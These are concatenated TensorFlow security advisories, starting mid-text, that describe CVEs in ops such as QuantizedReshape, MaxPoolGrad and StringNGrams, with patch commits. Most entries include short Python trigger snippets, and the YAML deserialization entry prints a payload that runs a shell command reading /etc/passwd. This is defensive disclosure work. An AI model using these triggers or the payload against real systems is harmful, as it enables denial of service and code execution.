and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-026: Heap buffer overflow in `QuantizedReshape`

### CVE Number
CVE-2021-29536

### Impact
An attacker can cause a heap buffer overflow in `QuantizedReshape` by
passing in invalid thresholds for the quantization:

```python
import tensorflow as tf

tensor = tf.constant([], dtype=tf.qint32)
shape = tf.constant([], dtype=tf.int32)
input_min = tf.constant([], dtype=tf.float32)
input_max = tf.constant([], dtype=tf.float32)

tf.raw_ops.QuantizedReshape(tensor=tensor, shape=shape, input_min=input_min, input_max=input_max)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/a324ac84e573fba362a5e53d4e74d5de6729933e/tensorflow/core/kernels/quantized_reshape_op.cc#L38-L55)
assumes that the 2 arguments are always valid scalars and tries to access the
numeric value directly:

```cc
const auto& input_min_float_tensor = ctx->input(2);
...
const float input_min_float = input_min_float_tensor.flat<float>()(0);
const auto& input_max_float_tensor = ctx->input(3);
...
const float input_max_float = input_max_float_tensor.flat<float>()(0);
```

However, if any of these tensors is empty, then `.flat<T>()` is an empty buffer
and accessing the element at position 0 results in overflow.

### Patches
We have patched the issue in GitHub commit
[a324ac84e573fba362a5e53d4e74d5de6729933e](https://github.com/tensorflow/tensorflow/commit/a324ac84e573fba362a5e53d4e74d5de6729933e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-152: Arbitrary code execution due to YAML deserialization

### CVE Number
CVE-2021-37678

### Impact
TensorFlow and Keras can be tricked to perform arbitrary code execution when
deserializing a Keras model from YAML format.

```python
from tensorflow.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
'''

models.model_from_yaml(payload)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/python/keras/saving/model_config.py#L66-L104)
uses `yaml.unsafe_load` which can perform arbitrary code execution on the input.

### Patches
Given that YAML format support requires a significant amount of work, we have
removed it for now.

We have patched the issue in GitHub commit
[23d6383eb6c14084a8fc3bdf164043b974818012](https://github.com/tensorflow/tensorflow/commit/23d6383eb6c14084a8fc3bdf164043b974818012).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Arjun Shibu.
## TFSA-2021-094: Heap OOB read in TFLite

### CVE Number
CVE-2021-29606

### Impact
A specially crafted TFLite model could trigger an OOB read on heap in the
TFLite implementation of
[`Split_V`](https://github.com/tensorflow/tensorflow/blob/c59c37e7b2d563967da813fa50fe20b21f4da683/tensorflow/lite/kernels/split_v.cc#L99):

```cc
const int input_size = SizeOfDimension(input, axis_value);
```

If `axis_value` is not a value between 0 and `NumDimensions(input)`, then the
[`SizeOfDimension`
function](https://github.com/tensorflow/tensorflow/blob/102b211d892f3abc14f845a72047809b39cc65ab/tensorflow/lite/kernels/kernel_util.h#L148-L150)
will access data outside the bounds of the tensor shape array:

```cc
inline int SizeOfDimension(const TfLiteTensor* t, int dim) {
  return t->dims->data[dim];
}
```

### Patches
We have patched the issue in GitHub commit
[ae2daeb45abfe2c6dda539cf8d0d6f653d3ef412](https://github.com/tensorflow/tensorflow/commit/ae2daeb45abfe2c6dda539cf8d0d6f653d3ef412).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-020: Heap buffer overflow in weighted sparse count ops

### CVE Number
CVE-2020-15196

### Impact
The `SparseCountSparseOutput` and `RaggedCountSparseOutput` implementations
don't validate that the `weights` tensor has the same shape as the data. The
check exists for `DenseCountSparseOutput`, where both tensors are [fully
specified](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L110-L117):
```cc
    if (use_weights) {
      OP_REQUIRES(
          context, weights.shape() == data.shape(),
          errors::InvalidArgument(
              "Weights and data must have the same shape. Weight shape: ",
              weights.shape().DebugString(),
              "; data shape: ", data.shape().DebugString()));
    }
```

In the sparse and ragged count weights are still accessed [in parallel with the
data](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L199-L201):
```cc
    for (int idx = 0; idx < num_values; ++idx) {
      int batch = is_1d ? 0 : indices_values(idx, 0);
      const auto& value = values_values(idx);
      per_batch_counts[batch][value] += weight_values(idx);
   }
```

But, since there is no validation, a user passing fewer weights than the values
for the tensors can generate a read from outside the bounds of the heap buffer
allocated for the weights.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md).
## TFSA-2021-068: Heap buffer overflow in `MaxPoolGrad`

### CVE Number
CVE-2021-29579

### Impact
The implementation of `tf.raw_ops.MaxPoolGrad` is vulnerable to a heap buffer
overflow:

```python
import tensorflow as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
  strides=strides, padding=padding, explicit_paddings=[])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ab1e644b48c82cb71493f4362b4dd38f4577a1cf/tensorflow/core/kernels/maxpooling_op.cc#L194-L203)
fails to validate that indices used to access elements of input/output arrays
are valid:

```cc
for (int index = out_start; index < out_end; ++index) {
  int input_backprop_index = out_arg_max_flat(index);
  FastBoundsCheck(input_backprop_index - in_start, in_end - in_start);
  input_backprop_flat(input_backprop_index) += out_backprop_flat(index);
}
```

Whereas accesses to `input_backprop_flat` are guarded by `FastBoundsCheck`, the
indexing in `out_backprop_flat` can result in OOB access.

### Patches
We have patched the issue in GitHub commit
[a74768f8e4efbda4def9f16ee7e13cf3922ac5f7](https://github.com/tensorflow/tensorflow/commit/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-135: Crash caused by integer conversion to unsigned

### CVE Number
CVE-2021-37661

### Impact
An attacker can cause a denial of service in
`boosted_trees_create_quantile_stream_resource` by using negative arguments:

```python
import tensorflow as tf
from tensorflow.python.ops import gen_boosted_trees_ops
import numpy as np

v= tf.Variable([0.0, 0.0, 0.0, 0.0, 0.0])
gen_boosted_trees_ops.boosted_trees_create_quantile_stream_resource(
  quantile_stream_resource_handle = v.handle,
  epsilon = [74.82224],
  num_streams = [-49],
  max_elements = np.int32(586))
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/quantile_ops.cc#L96)
does not validate that `num_streams` only contains non-negative numbers. In
turn, [this results in using this value to allocate
memory](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/quantiles/quantile_stream_resource.h#L31-L40):

```cc
class BoostedTreesQuantileStreamResource : public ResourceBase {
 public:
  BoostedTreesQuantileStreamResource(const float epsilon,
                                     const int64 max_elements,
                                     const int64 num_streams)
      : are_buckets_ready_(false),
        epsilon_(epsilon),
        num_streams_(num_streams),
        max_elements_(max_elements) {
    streams_.reserve(num_streams_);
    ...
  }
}
```

However, `reserve` receives an unsigned integer so there is an implicit
conversion from a negative value to a large positive unsigned. This results in
a crash from the standard library.

### Patches
We have patched the issue in GitHub commit
[8a84f7a2b5a2b27ecf88d25bad9ac777cd2f7992](https://github.com/tensorflow/tensorflow/commit/8a84f7a2b5a2b27ecf88d25bad9ac777cd2f7992).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-016: Division by 0 in `QuantizedConv2D`

### CVE Number
CVE-2021-29527

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedConv2D`:

```python
import tensorflow as tf

input = tf.zeros([1, 1, 1, 1], dtype=tf.quint8)
filter = tf.constant([], shape=[1, 0, 1, 1], dtype=tf.quint8)
min_input = tf.constant(0.0)
max_input = tf.constant(0.0001)
min_filter = tf.constant(0.0)
max_filter = tf.constant(0.0001)
strides = [1, 1, 1, 1]
padding = "SAME"


tf.raw_ops.QuantizedConv2D(input=input, filter=filter, min_input=min_input, max_input=max_input, min_filter=min_filter, max_filter=max_filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/00e9a4d67d76703fa1aee33dac582acf317e0e81/tensorflow/core/kernels/quantized_conv_ops.cc#L257-L259) does a division by a quantity that is controlled by the caller:

```cc
const int filter_value_count = filter_width * filter_height * input_depth;
const int64 patches_per_chunk = kMaxChunkSize / (filter_value_count * sizeof(T1));
```

### Patches
We have patched the issue in GitHub commit
[cfa91be9863a91d5105a3b4941096044ab32036b](https://github.com/tensorflow/tensorflow/commit/cfa91be9863a91d5105a3b4941096044ab32036b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

## TFSA-2021-104: Null dereference in Grappler's `TrySimplify`

### CVE Number
CVE-2021-29616

### Impact
The implementation of
[`TrySimplify`](https://github.com/tensorflow/tensorflow/blob/c22d88d6ff33031aa113e48aa3fc9aa74ed79595/tensorflow/core/grappler/optimizers/arithmetic_optimizer.cc#L390-L401)
has undefined behavior due to dereferencing a null pointer in corner cases that
result in optimizing a node with no inputs.

### Patches
We have patched the issue in GitHub commit
[e6340f0665d53716ef3197ada88936c2a5f7a2d3](https://github.com/tensorflow/tensorflow/commit/e6340f0665d53716ef3197ada88936c2a5f7a2d3).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2018-003: TensorFlow Lite TOCO FlatBuffer Parsing Vulnerability

### CVE Number

CVE-2018-8825

### Issue Description

The TensorFlow Lite TOCO compiler does not perform correct boundary checks when
reading from some fields within TFLite files. 

As background, TFLite files are based on the FlatBuffers serialization format,
which does not have bounds checking built-in, rather it relies on the clients to
handle the appropriate security checks by themselves.

In particular, TOCO is not performing correct bounds checks in the following places:
* Out of bounds read in TOCO in import.cc:42
* Null dereference in TOCO in import.cc:135
* Out of bounds read in TOCO in import.cc:104
* Null dereference in TOCO in import.cc:121
* Out of bounds read in TOCO in import.cc:62
* Out of bounds read in TOCO in operator.cc:48
* Out of bounds read in TOCO graph_transformations (propagate_fixed_sizes.cc:93)


### Impact

Users passing a malformed or malicious version of a TFLite graph into TOCO will
cause TOCO to crash or cause a buffer overflow, potentially allowing malicious
code to be executed.

### Vulnerable Versions

TensorFlow 1.5.0, 1.5.1, 1.6.0, 1.7.0

### Mitigation

We have patched the vulnerability in GitHub commits [41335abb](https://github.com/tensorflow/tensorflow/commit/41335abb46f80ca644b5738550daef6136ba5476) and
[8badd11d](https://github.com/tensorflow/tensorflow/commit/8badd11d875a826bd318ed439909d5c47a7fb811).
If users are running the TensorFlow TFLite TOCO compiler in production or on
untrusted data, they are encouraged to apply this patch.

Additionally, we have released TensorFlow version 1.7.1 to mitigate this
vulnerability.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2021-046: Heap buffer overflow in `SparseSplit`

### CVE Number
CVE-2021-29558

### Impact
An attacker can cause a heap buffer overflow in `tf.raw_ops.SparseSplit`:

```python
import tensorflow as tf

shape_dims = tf.constant(0, dtype=tf.int64)
indices = tf.ones([1, 1], dtype=tf.int64)
values = tf.ones([1], dtype=tf.int64)
shape = tf.ones([1], dtype=tf.int64)

tf.raw_ops.SparseSplit(
    split_dim=shape_dims, indices=indices, values=values,
    shape=shape, num_split=1)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/699bff5d961f0abfde8fa3f876e6d241681fbef8/tensorflow/core/util/sparse/sparse_tensor.h#L528-L530)
accesses an array element based on a user controlled offset:

```cc
const int dim = input_tensor.indices().matrix<int64>()(i, split_dim);
int slice_index = GetSliceIndex(dim, split_size, residual);
num_values[slice_index]++;
```

This results in overriding values on the heap.

### Patches
We have patched the issue in GitHub commit
[8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31](https://github.com/tensorflow/tensorflow/commit/8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2020-011: Data leak in `tf.raw_ops.StringNGrams`

### CVE Number
CVE-2020-15205

### Impact
The `data_splits` argument of
[`tf.raw_ops.StringNGrams`](https://www.tensorflow.org/api_docs/python/tf/raw_ops/StringNGrams)
lacks validation. This allows a user to pass values that can cause heap
overflow errors and even leak contents of memory
```python
>>> tf.raw_ops.StringNGrams(data=["aa", "bb", "cc", "dd", "ee", "ff"], data_splits=[0,8], separator=" ", ngram_widths=[3], left_pad="", right_pad="", pad_width=0, preserve_short_sequences=False)
StringNGrams(ngrams=<tf.Tensor: shape=(6,), dtype=string, numpy=
array([b'aa bb cc', b'bb cc dd', b'cc dd ee', b'dd ee ff',
       b'ee ff \xf4j\xa7q\x7f\x00\x00q\x00\x00\x00\x00\x00\x00\x00\xd8\x9b~\xa8q\x7f\x00',
       b'ff \xf4j\xa7q\x7f\x00\x00q\x00\x00\x00\x00\x00\x00\x00\xd8\x9b~\xa8q\x7f\x00 \x9b~\xa8q\x7f\x00\x00p\xf5j\xa7q\x7f\x00\x00H\xf8j\xa7q\x7f\x00\x00\xf0\xf3\xf7\x85q\x7f\x00\x00`}\xa6\x00\x00\x00\x00\x00`~\xa6\x00\x00\x00\x00\x00\xb0~\xeb\x9bq\x7f\x00'],...
```

All the binary strings after `ee ff` are contents from the memory stack. Since
these can contain return addresses, this data leak can be used to defeat ASLR.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[0462de5b544ed4731aa2fb23946ac22c01856b80](https://github.com/tensorflow/tensorflow/commit/0462de5b544ed4731aa2fb23946ac22c01856b80)
and will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-001: Segmentation fault when converting a Python string to `tf.float16`

### CVE Number

CVE-2020-5215

### Issue Description

Converting a string (from Python) to a `tf.float16` value results in a
segmentation fault in eager mode as the format checks for this use case are only
in the graph mode.

### Impact

This issue can lead to denial of service in inference/training where a malicious
attacker can send a data point which contains a string instead of a `tf.float16`
value.

Similar effects can be obtained by manipulating saved models and checkpoints
whereby replacing a scalar `tf.float16` value with a scalar string will trigger
this issue due to automatic conversions.

This can be easily reproduced by `tf.constant("hello", tf.float16)`, if eager
execution is enabled.

### Vulnerable Versions

TensorFlow 1.12.0, 1.12.1, 1.12.2, 1.12.3, 1.13.0, 1.13.1, 1.13.2, 1.14.0,
1.15.0, 2.0.0.

### Mitigation

We have patched the vulnerability in GitHub commit
[5ac1b9](https://github.com/tensorflow/tensorflow/commit/5ac1b9e24ff6afc465756edf845d2e9660bd34bf).

We are additionally releasing TensorFlow 1.15.2 and 2.0.1 with this
vulnerability patched.

TensorFlow 2.1.0 was released after we fixed the issue, thus it is not affected.

We encourage users to switch to TensorFlow 1.15.2, 2.0.1 or 2.1.0.
## TFSA-2021-018: Invalid validation in `SparseMatrixSparseCholesky`

### CVE Number
CVE-2021-29530

### Impact
An attacker can trigger a null pointer dereference by providing an invalid
`permutation` to `tf.raw_ops.SparseMatrixSparseCholesky`:

```python
import tensorflow as tf
import numpy as np
from tensorflow.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([-10.0], dtype=np.float32)
dense_shape = [1, 1]
st = tf.SparseTensor(indices_array, value_array, dense_shape)

input = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)

permutation = tf.constant([], shape=[1, 0], dtype=tf.int32)

tf.raw_ops.SparseMatrixSparseCholesky(input=input, permutation=permutation, type=tf.float32)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/kernels/sparse/sparse_cholesky_op.cc#L85-L86) fails to properly validate the input arguments:

```cc
void Compute(OpKernelContext* ctx) final {
  ...
  const Tensor& input_permutation_indices = ctx->input(1);
  ...
  ValidateInputs(ctx, *input_matrix, input_permutation_indices, &batch_size, &num_rows);
  ...
}

void ValidateInputs(OpKernelContext* ctx,
    const CSRSparseMatrix& sparse_matrix,
    const Tensor& permutation_indices, int* batch_size,
    int64* num_rows) {
  OP_REQUIRES(ctx, sparse_matrix.dtype() == DataTypeToEnum<T>::value, ...)
  ...
}
```

Although `ValidateInputs` is called and there are checks in the body of this
function, the code proceeds to the next line in `ValidateInputs` since
[`OP_REQUIRES`](https://github.com/tensorflow/tensorflow/blob/080f1d9e257589f78b3ffb75debf584168aa6062/tensorflow/core/framework/op_requires.h#L41-L48)
is a macro that only exits the current function.

```cc
#define OP_REQUIRES(CTX, EXP, STATUS)                     \
  do {                                                    \
    if (!TF_PREDICT_TRUE(EXP)) {                          \
      CheckNotInComputeAsync((CTX), "OP_REQUIRES_ASYNC"); \
      (CTX)->CtxFailure(__FILE__, __LINE__, (STATUS));    \
      return;                                             \
    }                                                     \
  } while (0)
```

Thus, the first validation condition that fails in `ValidateInputs` will cause
an early return from that function. However, the caller will continue execution
from the next line. The fix is to either explicitly check `context->status()`
or to convert `ValidateInputs` to return a `Status`.

### Patches
We have patched the issue in GitHub commit
[e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd](https://github.com/tensorflow/tensorflow/commit/e6a7c7cc18c3aaad1ae0872cb0a959f5c923d2bd).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-095: Heap OOB and null pointer dereference in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29608

### Impact
Due to lack of validation in `tf.raw_ops.RaggedTensorToTensor`, an attacker can
exploit an undefined behavior if input arguments are empty:

```python
import tensorflow as tf

shape = tf.constant([-1, -1], shape=[2], dtype=tf.int64)
values = tf.constant([], shape=[0], dtype=tf.int64)
default_value = tf.constant(404, dtype=tf.int64)
row = tf.constant([269, 404, 0, 0, 0, 0, 0], shape=[7], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
  shape=shape, values=values, default_value=default_value,
  row_partition_tensors=rows, row_partition_types=types)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L356-L360)
only checks that one of the tensors is not empty, but does not check for the
other ones.

There are multiple `DCHECK` validations to prevent heap OOB, but these are no-op
in release builds, hence they don't prevent anything.

### Patches
We have patched the issue in GitHub commit
[b761c9b652af2107cfbc33efd19be0ce41daa33e](https://github.com/tensorflow/tensorflow/commit/b761c9b652af2107cfbc33efd19be0ce41daa33e)
followed by GitHub commit
[f94ef358bb3e91d517446454edff6535bcfe8e4a](https://github.com/tensorflow/tensorflow/commit/f94ef358bb3e91d517446454edff6535bcfe8e4a)
and GitHub commit
[c4d7afb6a5986b04505aca4466ae1951686c80f6](https://github.com/tensorflow/tensorflow/commit/c4d7afb6a5986b04505aca4466ae1951686c80f6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick these
commits on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-009: Segfault in `SparseCountSparseOutput`

### CVE Number
CVE-2021-29521

### Impact
Specifying a negative dense shape in `tf.raw_ops.SparseCountSparseOutput`
results in a segmentation fault being thrown out from the standard library as
`std::vector` invariants are broken.

```python
import tensorflow as tf

indices = tf.constant([], shape=[0, 0], dtype=tf.int64)
values = tf.constant([], shape=[0, 0], dtype=tf.int64)
dense_shape = tf.constant([-100, -100, -100], shape=[3], dtype=tf.int64)
weights = tf.constant([], shape=[0, 0], dtype=tf.int64)

tf.raw_ops.SparseCountSparseOutput(indices=indices, values=values, dense_shape=dense_shape, weights=weights, minlength=79, maxlength=96, binary_output=False)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/8f7b60ee8c0206a2c99802e3a4d1bb55d2bc0624/tensorflow/core/kernels/count_ops.cc#L199-L213)
assumes the first element of the dense shape is always positive and uses it to
initialize a `BatchedMap<T>` (i.e.,
[`std::vector<absl::flat_hash_map<int64,T>>`](https://github.com/tensorflow/tensorflow/blob/8f7b60ee8c0206a2c99802e3a4d1bb55d2bc0624/tensorflow/core/kernels/count_ops.cc#L27))
data structure.

```cc
  bool is_1d = shape.NumElements() == 1;
  int num_batches = is_1d ? 1 : shape.flat<int64>()(0);
  ...
  auto per_batch_counts = BatchedMap<W>(num_batches);
```

If the `shape` tensor has more than one element, `num_batches` is the first
value in `shape`.

Ensuring that the `dense_shape` argument is a valid tensor shape (that is, all
elements are non-negative) solves this issue.

### Patches
We have patched the issue in GitHub commit
[c57c0b9f3a4f8684f3489dd9a9ec627ad8b599f5](https://github.com/tensorflow/tensorflow/commit/c57c0b9f3a4f8684f3489dd9a9ec627ad8b599f5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2020-034: Heap out of bounds access in MakeEdge

### CVE Number
CVE-2020-26271

### Impact
Under certain cases, loading a saved model can result in accessing uninitialized
memory while building the computation graph. The [`MakeEdge`
function](https://github.com/tensorflow/tensorflow/blob/3616708cb866365301d8e67b43b32b46d94b08a0/tensorflow/core/common_runtime/graph_constructor.cc#L1426-L1438)
creates an edge between one output tensor of the `src` node (given by
`output_index`) and the input slot of the `dst` node (given by `input_index`).
This is only possible if the types of the tensors on both sides coincide, so the
function begins by obtaining the corresponding `DataType` values and comparing
these for equality:

```cc
  DataType src_out = src->output_type(output_index);
  DataType dst_in = dst->input_type(input_index);
  //...
```

However, there is no check that the indices point to inside of the arrays they
index into. Thus, this can result in accessing data out of bounds of the
corresponding heap allocated arrays.

In most scenarios, this can manifest as unitialized data access, but if the
index points far away from the boundaries of the arrays this can be used to leak
addresses from the library.

### Patches

We have patched the issue in GitHub commit
[0cc38aaa4064fd9e79101994ce9872c6d91f816b](https://github.com/tensorflow/tensorflow/commit/0cc38aaa4064fd9e79101994ce9872c6d91f816b)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

Since this issue also impacts TF versions before 2.4, we will patch all releases
between 1.15 and 2.3 inclusive.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2020-017: Abort due to invalid splits in RaggedCountSparseOutput

### CVE Number
CVE-2020-15199

### Impact
The `RaggedCountSparseOutput` does not validate that the input arguments form a
valid ragged tensor. In particular, there is no validation that the `splits`
tensor has the minimum required number of elements. Code uses this quantity to
[initialize a different data
structure](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L241-L244):
```cc
    int num_batches = splits.NumElements() - 1;
    auto per_batch_counts = BatchedMap<W>(num_batches);
```

Since `BatchedMap` is equivalent to a vector, it needs to have at least one
element to not be `nullptr`. If user passes a `splits` tensor that is empty or
has exactly one element, we get a `SIGABRT` signal raised by the operating
system.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md).
## TFSA-2021-084: Division by zero in TFLite's implementation of `BatchToSpaceNd`

### CVE Number
CVE-2021-29593

### Impact
The implementation of the `BatchToSpaceNd` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/b5ed552fe55895aee8bd8b191f744a069957d18d/tensorflow/lite/kernels/batch_to_space_nd.cc#L81-L82):

```cc
TF_LITE_ENSURE_EQ(context, output_batch_size % block_shape[dim], 0);
output_batch_size = output_batch_size / block_shape[dim];
```

An attacker can craft a model such that one dimension of the `block` input is 0.
Hence, the corresponding value in `block_shape` is 0.

### Patches
We have patched the issue in GitHub commit
[2c74674348a4708ced58ad6eb1b23354df8ee044](https://github.com/tensorflow/tensorflow/commit/2c74674348a4708ced58ad6eb1b23354df8ee044).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
